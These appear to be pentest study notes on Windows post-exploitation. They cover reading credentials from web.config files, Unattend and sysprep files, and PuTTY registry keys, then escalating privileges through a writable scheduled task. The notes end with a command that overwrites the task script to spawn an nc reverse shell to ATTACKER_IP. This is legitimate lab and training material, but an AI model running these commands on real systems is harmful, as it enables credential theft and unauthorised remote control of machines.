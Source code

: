 ## Database connection strings
find database connection strings on either `web.config` file:
```shell-session
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
```
```shell-session
type C:\inetpub\wwwroot\web.config | findstr connectionString
```

## Files that store creds
These store credentials:
- `C:\Unattend.xml
- `C:\Windows\Panther\Unattend.xml
- `C:\Windows\Panther\Unattend\Unattend.xml
- `C:\Windows\system32\sysprep.inf
- `C:\Windows\system32\sysprep\sysprep.xml
- `C:\Windows\system32\sysprep\sysprep.xml

## Exploit SSH client (PuTTY) for stored creds
PuTTY is an SSH client commonly found on Windows systems
retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
```shell-session
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```


---

# Privilege Escalation

## Scheduled Tasks

`schtasks
`schtasks /query /tn vulntask /fo list /v

what matters is: 
`Task To Run:              C:\tasks\schtask.bat

If our current user can modify or overwrite the "Task to Run" executable, we can control what gets executed by the taskusr1 user, resulting in a simple privilege escalation. To check the file permissions on the executable, we use 
`icacls`
`icacls c:\tasks\schtask.bat

in the result, the **BUILTIN\Users** group has full access (F) over the task's binary
`BUILTIN\Users:(I)(F)`

change the bat file to spawn a reverse shell:
```shell-session
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

